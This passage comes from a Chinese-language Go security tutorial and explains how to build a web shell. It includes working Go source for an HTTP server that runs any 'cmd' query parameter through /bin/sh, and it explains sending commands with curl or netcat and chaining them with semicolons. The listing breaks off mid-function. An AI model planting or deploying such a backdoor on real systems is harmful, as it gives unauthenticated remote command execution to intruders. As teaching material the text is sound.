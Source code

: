 请记住，使用纯 HTTP 意味着可以用纯文本记录流量。HTTPS 可用于加密流量，但 SSL 证书和密钥将驻留在服务器上，以便服务器管理员可以访问它。要使此示例使用 SSL，您只需将`http.ListenAndServe()`更改为`http.ListenAndServeTLS()`。[第 9 章](09.html)、*Web 应用程序*中提供了一个示例。

web shell 的便利之处在于，您可以使用任何 web 浏览器和命令行工具，如`curl`或`wget`。您甚至可以使用`netcat`手动创建 HTTP 请求。缺点是您没有真正的交互式 shell，一次只能发送一个命令。如果使用分号分隔多个命令，则可以使用一个字符串运行多个命令。

您可以在`netcat`中手动创建 HTTP 请求，也可以像下面这样定制 TCP 客户端：

```go
GET /?cmd=whoami HTTP/1.0\n\n  
```

这类似于由 web 浏览器创建的请求。例如，如果您运行`webshell localhost:8080`，您可以访问端口`8080`上的 URL，并使用`http://localhost:8080/?cmd=df`运行命令。

注意，`/bin/sh`shell 命令适用于 Linux 和 Mac。Windows 使用`cmd.exe`命令提示符。在 Windows 中，您可以启用 Windows Subsystem for Linux 并从 Windows 应用商店安装 Ubuntu，以便在 Linux 环境中运行所有这些 Linux 示例，而无需安装虚拟机。

在下一个示例中，WebShell 创建了一个简单的 web 服务器，用于侦听 HTTP 上的请求。当它收到请求时，它会查找名为`cmd`的`GET`查询。它将执行 shell，运行提供的命令，并将结果作为 HTTP 响应返回：

```go
package main

import (
   "fmt"
   "log"
   "net/http"
   "os"
   "os/exec"
)

var shell = "/bin/sh"
var shellArg = "-c"

func main() {
   if len(os.Args) != 2 {
      fmt.Printf("Usage: %s <listenAddress>\n", os.Args[0])
      fmt.Printf("Example: %s localhost:8080\n", os.Args[0])
      os.Exit(1)
   }

   http.HandleFunc("/", requestHandler)
   log.Println("Listening for HTTP requests.")
   err := http.ListenAndServe(os.Args[1], nil)
   if err != nil {
      log.Fatal("Error creating server. ", err)
   }
}

func requestHandler(writer http.ResponseWriter, request *http.Request) {
   // Get command to execute from GET query parameters
   cmd := request.URL.Query().Get("cmd")
   if cmd == "" {
      fmt.Fprintln(
         writer,
         "No command provided. Example: /?cmd=whoami")
      return
   }

   log.Printf("Request from %s: %s\n", request.RemoteAddr, cmd)
   fmt.Fprintf(writer, "You requested command: %s\n", cmd)

   // Run the command
   command := exec.Command(shell, shellArg, cmd)
   output, err := command.Output()
   if err != nil {
```